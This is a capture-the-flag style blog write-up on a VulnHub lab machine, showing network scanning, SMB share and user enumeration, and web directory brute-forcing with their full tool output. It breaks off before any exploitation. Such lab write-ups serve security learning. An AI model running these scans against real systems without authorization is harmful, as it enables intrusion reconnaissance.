<html lang="en">
    <head>
        <meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1">
        <title>/f0c1s/blog/sec/vulnhub/hackNos-bytesec</title>
        <link rel="stylesheet" href="../../../index.css"/>
        <link rel="stylesheet" href="../../../highlight/styles/monokai.min.css"/>
        <script src="../../../highlight/highlight.min.js"></script>
        <script src="../../../setup.js"></script>
        <script>hljs.highlightAll();</script>
    </head>
<body onload="setup()">
<h1>/f0c1s/blog/sec/vulnhub/hackNos-bytesec</h1>

<nav>
    <a href="../../../index.html">/blog</a>
    <a href="../../index.html">Security</a>
    <a href="../index.html">VulnHub</a>
    <a href="../../../sec/vulnhub/hackNos-ByteSec/hackNos-ByteSec.html">+ hackNos: ByteSec - 2022.01.02 Sunday</a>
</nav>

## Description

> Difficulty : Intermediate
>
> Flag : 2 Flag first user And second root
>
> Learning : exploit | SMB | Enumration | Stenography | Privilege Escalation
>
> Contact .. https://www.linkedin.com/in/rahulgehlaut/
>
> This works better with VirtualBox rather than VMware.

[VulnHub: https://www.vulnhub.com/entry/hacknos-os-bytesec,393/](https://www.vulnhub.com/entry/hacknos-os-bytesec,393/)
[Series: https://www.vulnhub.com/series/hacknos,257/](https://www.vulnhub.com/series/hacknos,257/)



## Scanning

```shell
fping -aAqg 192.168.56.1/24 | tee fping.txt
192.168.56.1
192.168.56.2
192.168.56.70
192.168.56.86

```

[Readup on fping](../../tools/fping.html)

```shell
sudo netdiscover -r 192.168.56.1/24 -i eth1 -PN
[sudo] password for f0c1s:
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
 192.168.56.2    08:00:27:b9:4b:07      1      60  PCS Systemtechnik GmbH
 192.168.56.86   08:00:27:65:2b:e0      1      60  PCS Systemtechnik GmbH

-- Active scan completed, 3 Hosts found.

```

[Readup on netdiscover](../../tools/netdiscover/netdiscover.html)

```shell
sudo arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 08:00:27:13:e5:7a, IPv4: 192.168.56.70
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:00       (Unknown: locally administered)
192.168.56.2    08:00:27:b9:4b:07       PCS Systemtechnik GmbH
192.168.56.86   08:00:27:65:2b:e0       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.012 seconds (127.24 hosts/sec). 3 responded

```

[Readup on arp-scan](../../tools/arp-scan/arp-scan.html)

```shell
nmap 192.168.56.1/24 -sn -n
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 07:32 IST
Nmap scan report for 192.168.56.70
Host is up (0.00029s latency).
Nmap scan report for 192.168.56.86
Host is up (0.0019s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 2.45 seconds

```

```shell
_n $RHOST
firing nmap 192.168.56.86 | tee nmap.default.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 08:13 IST
Nmap scan report for 192.168.56.86
Host is up (0.00034s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2525/tcp open  ms-v-worlds

Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```

```shell
_ntd $RHOST
firing nmap 192.168.56.86 -p- -Pn -A -T4 --min-rate=5000 -sVC | tee nmap.tcp-ports.deep.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-02 08:13 IST
Nmap scan report for 192.168.56.86
Host is up (0.00015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Hacker_James
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2525/tcp open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 12:55:4f:1e:e9:7e:ea:87:69:90:1c:1f:b0:63:3f:f3 (RSA)
|   256 a6:70:f1:0e:df:4e:73:7d:71:42:d6:44:f1:2f:24:d2 (ECDSA)
|_  256 f0:f8:fd:24:65:07:34:c2:d4:9a:1f:c0:b8:2e:d8:3a (ED25519)
Service Info: Host: NITIN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h50m00s, deviation: 3h10m31s, median: 0s
| smb2-time:
|   date: 2022-01-02T02:43:19
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: NITIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nitin
|   NetBIOS computer name: NITIN\x00
|   Domain name: 168.1.7
|   FQDN: nitin.168.1.7
|_  System time: 2022-01-02T08:13:19+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.96 seconds

```

```shell
| port | service | detail/remarks                                               |
|------|---------|--------------------------------------------------------------|
| 80   | Web     | Apache httpd 2.4.18 ((Ubuntu))                               |
| 139  | netbios | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                  |
| 445  | samba   | Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)              |
| 2525 | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
```

## Attacking SMB

```shell
smbmap -H $RHOST -u "" | tee smbmap.-H-null.txt
[+] Guest session       IP: 192.168.56.86:445   Name: 192.168.56.86
        Disk       Permissions     Comment
        ----       -----------     -------
        print$     NO ACCESS       Printer Drivers
        IPC$       NO ACCESS       IPC Service (nitin server (Samba, Ubuntu))

```

```shell
smbmap -H $RHOST | tee smbmap.-H.txt
[+] Guest session       IP: 192.168.56.86:445   Name: 192.168.56.86
        Disk       Permissions     Comment
        ----       -----------     -------
        print$     NO ACCESS       Printer Drivers
        IPC$       NO ACCESS       IPC Service (nitin server (Samba, Ubuntu))

```

```shell
smbclient -U '%' -N \\\\$RHOST\\nitin
tree connect failed: NT_STATUS_BAD_NETWORK_NAME

```

```shell
smbclient -N -L $RHOST --option="client min protocol"=LANMAN1

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (nitin server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            NITIN

```

```shell
smbclient -N -L $RHOST

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (nitin server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

```

### enum4linux

```shell
enum4linux -a $RHOST | tee enum4linux.txt
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Jan  2 08:14:50 2022

 ==========================
|    Target Information    |
 ==========================
Target ........... 192.168.56.86
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =====================================================
|    Enumerating Workgroup/Domain on 192.168.56.86    |
 =====================================================
[+] Got domain/workgroup name: WORKGROUP

 =============================================
|    Nbtstat Information for 192.168.56.86    |
 =============================================
Looking up status of 192.168.56.86
        NITIN           <00> -         B <ACTIVE>  Workstation Service
        NITIN           <03> -         B <ACTIVE>  Messenger Service
        NITIN           <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================
|    Session Check on 192.168.56.86    |
 ======================================
[+] Server 192.168.56.86 allows sessions using username '', password ''

 ============================================
|    Getting domain SID for 192.168.56.86    |
 ============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 =======================================
|    OS information on 192.168.56.86    |
 =======================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.56.86 from smbclient:
[+] Got OS info for 192.168.56.86 from srvinfo:
        NITIN          Wk Sv PrQ Unx NT SNT nitin server (Samba, Ubuntu)
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

 ==============================
|    Users on 192.168.56.86    |
 ==============================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: smb      Name:   Desc:

user:[smb] rid:[0x3e8]

 ==========================================
|    Share Enumeration on 192.168.56.86    |
 ==========================================

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (nitin server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 192.168.56.86
//192.168.56.86/print$  Mapping: DENIED, Listing: N/A
//192.168.56.86/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

 =====================================================
|    Password Policy Information for 192.168.56.86    |
 =====================================================


[+] Attaching to 192.168.56.86 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] NITIN
        [+] Builtin

[+] Password Info for Domain: NITIN

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: Not Set
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes
        [+] Locked Account Duration: 30 minutes
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5


 ===============================
|    Groups on 192.168.56.86    |
 ===============================

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 192.168.56.86 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-557360601-4180042360-1228881099
[I] Found new SID: S-1-5-32
...
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)

 ==============================================
|    Getting printer info for 192.168.56.86    |
 ==============================================
No printers returned.


enum4linux complete on Sun Jan  2 08:15:01 2022
```

[Checkout 1.out-enum4linux.txt for full details](1.out-enum4linux.txt)

Domain

- NITIN

Users:

- sagar
- blackjax
- smb

### nbtscan

[Readup on tool nbtscan](../../tools/nbtscan/nbtscan.html)

```shell
nbtscan -v $RHOST
Doing NBT name scan for addresses from 192.168.56.86


NetBIOS Name Table for Host 192.168.56.86:

Incomplete packet, 227 bytes long.
Name             Service          Type
----------------------------------------
NITIN            <00>             UNIQUE
NITIN            <03>             UNIQUE
NITIN            <20>             UNIQUE
__MSBROWSE__  <01>              GROUP
WORKGROUP        <00>              GROUP
WORKGROUP        <1d>             UNIQUE
WORKGROUP        <1e>              GROUP

Adapter address: 00:00:00:00:00:00
----------------------------------------

```

### nmblookup

[Readup on tool nmblookup](../../tools/nmblookup/nmblookup.html)

```shell
nmblookup -ASMR $RHOST
Looking up status of 192.168.56.86
        NITIN           <00> -         B <ACTIVE>
        NITIN           <03> -         B <ACTIVE>
        NITIN           <20> -         B <ACTIVE>
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>
        WORKGROUP       <00> - <GROUP> B <ACTIVE>
        WORKGROUP       <1d> -         B <ACTIVE>
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>

        MAC Address = 00-00-00-00-00-00


```

### smbclient

```shell
smbclient -U '%' -N \\\\$RHOST\\nitin
tree connect failed: NT_STATUS_BAD_NETWORK_NAME

```

```shell
smbclient -U '%' -N \\\\$RHOST\\IPC$
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup
blocksize      cancel         case_sensitive cd             chmod
chown          close          del            deltree        dir
du             echo           exit           get            getfacl
geteas         hardlink       help           history        iosize
lcd            link           lock           lowercase      ls
l              mask           md             mget           mkdir
more           mput           newer          notify         open
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir
posix_unlink   posix_whoami   print          prompt         put
pwd            q              queue          quit           readlink
rd             recurse        reget          rename         reput
rm             rmdir          showacls       setea          setmode
scopy          stat           symlink        tar            tarmode
timeout        translate      unlock         volume         vuid
wdel           logon          listconnect    showconnect    tcon
tdis           tid            utimes         logoff         ..
!
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
smb: \> dir
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
smb: \> exit

```

```shell
smbclient -U '%' -N \\\\$RHOST\\blackjax
tree connect failed: NT_STATUS_BAD_NETWORK_NAME

```

## Attacking web



```html
<!DOCTYPE html>
<html lang="zxx">
<head>
	<title>Hacker_James</title>
	<meta charset="UTF-8">
	<meta name="description" content="Cloud 83 - hosting template ">
	<meta name="keywords" content="cloud, hosting, creative, html">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<!-- Favicon -->
	<link href="img/fcon.ico" rel="shortcut icon"/>

	<!-- Google Font -->
	<link href="https://fonts.googleapis.com/css?family=Montserrat:400,400i,500,500i,600,600i,700,700i" rel="stylesheet">


	<!-- Stylesheets -->
	<link rel="stylesheet" href="css/bootstrap.min.css"/>
	<link rel="stylesheet" href="css/font-awesome.min.css"/>
	<link rel="stylesheet" href="css/flaticon.css"/>
	<link rel="stylesheet" href="css/owl.carousel.min.css"/>
	<link rel="stylesheet" href="css/animate.css"/>
	<link rel="stylesheet" href="css/style.css"/>


	<!--[if lt IE 9]>
		  <script src="https://oss.maxcdn.com/html5shiv/3.7.2/html5shiv.min.js"></script>
	  <script src="https://oss.maxcdn.com/respond/1.4.2/respond.min.js"></script>
	<![endif]-->

</head>
<body>
	<!-- Page Preloder -->
	<div id="preloder">
		<div class="loader"></div>
	</div>

	<!-- Header section -->
	<header class="header-section">
		<a href="./index.html" class="site-logo"></a>
		<div class="nav-switch">
			<i class="fa fa-bars"></i>
		</div>
		<div class="nav-warp">
			<div class="user-panel">
			</div>
			<ul class="main-menu">
				<li><a href="./index.html">Home</a></li>
				<li><a href="./gallery">Gallery</a></li>
				<li><a href="./img/news.png">News</a></li>
				<li><a href="https://in.linkedin.com/in/rahulgehlaut">Contact</a></li>
			</ul>
		</div>
	</header>
	<!-- Header section end -->

	<!-- Hero section -->
	<section class="hero-section set-bg" data-setbg="img/bg.jpg">
		<div class="container h-100">
			<div class="hero-content text-white">
				<div class="row">
					<div class="col-lg-6 pr-0">
			</div>
		</div>
	</section>
	<!-- Hero section end -->

	<!-- Footer section -->
	<footer class="footer-section">
		<div class="container">
			<ul class="footer-menu">
				<li><a href="">Home</a></li>
				<li><a href="">About us</a></li>
				<li><a href="">Services</a></li>
				<li><a href="">News</a></li>
				<li><a href="">Contact</a></li>
			</ul>
			<div class="copyright"><!-- James/Hacker -->
Copyright &copy;<script>document.write(new Date().getFullYear());</script>
All rights reserved | This template is made with James/Hacker
<i class="fa fa-heart-o" aria-hidden="true"></i> by <a href="http:jameshacker.me" target="_blank">James</a>
<!-- James/Hacker --></div>
		</div>
	</footer>
	<!-- Footer top section end -->

####################GET#####smb##############free
	<!--====== Javascripts & Jquery ======-->
	<script src="js/jquery-3.2.1.min.js"></script>
	<script src="js/bootstrap.min.js"></script>
	<script src="js/owl.carousel.min.js"></script>
	<script src="js/circle-progress.min.js"></script>
	<script src="js/main.js"></script>

	</body>
</html>

```

It basically says "GET smb free".

### nikto

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.86
+ Target Hostname:    192.168.56.86
+ Target Port:        80
+ Start Time:         2022-01-02 08:23:19 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: c0e, size: 59686492a99fd, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /html/: Directory indexing found.
+ OSVDB-3092: /html/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-01-02 08:24:05 (GMT5.5) (46 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

### feroxbuster

```shell
feroxbuster -q -u http://$RHOST -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      313c http://192.168.56.86/news
301        9l       28w      312c http://192.168.56.86/img
301        9l       28w      318c http://192.168.56.86/img/icons
301        9l       28w      313c http://192.168.56.86/html
301        9l       28w      316c http://192.168.56.86/gallery
301        9l       28w      312c http://192.168.56.86/css
301        9l       28w      311c http://192.168.56.86/js
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_86-1641092426.state ...
Scanning: http://192.168.56.86
Scanning: http://192.168.56.86/news
Scanning: http://192.168.56.86/img
Scanning: http://192.168.56.86/html
Scanning: http://192.168.56.86/gallery
Scanning: http://192.168.56.86/css
Scanning: http://192.168.56.86/js

```

### Browsing found URLs













Anything interesting here is in the gallery/ directory. But I will have to circle back to it.

### dirb

```shell
dirb http://$RHOST

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sun Jan  2 08:31:28 2022
URL_BASE: http://192.168.56.86/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.56.86/ ----
==> DIRECTORY: http://192.168.56.86/css/
==> DIRECTORY: http://192.168.56.86/gallery/
==> DIRECTORY: http://192.168.56.86/html/
==> DIRECTORY: http://192.168.56.86/img/
+ http://192.168.56.86/index.html (CODE:200|SIZE:3086)
==> DIRECTORY: http://192.168.56.86/js/
==> DIRECTORY: http://192.168.56.86/news/
+ http://192.168.56.86/server-status (CODE:403|SIZE:278)

---- Entering directory: http://192.168.56.86/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.86/gallery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.86/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.86/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.86/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://192.168.56.86/news/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Sun Jan  2 08:31:29 2022
DOWNLOADED: 4612 - FOUND: 2

```

### gobuster

```shell
gobuster dir --url http://$RHOST -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -b 404,403 -q
/news                 (Status: 301) [Size: 313] [--> http://192.168.56.86/news/]
/img                  (Status: 301) [Size: 312] [--> http://192.168.56.86/img/]
/html                 (Status: 301) [Size: 313] [--> http://192.168.56.86/html/]
/gallery              (Status: 301) [Size: 316] [--> http://192.168.56.86/gallery/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.56.86/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.56.86/js/]
^C
[!] Keyboard interrupt detected, terminating.

```

This is going nowhere.

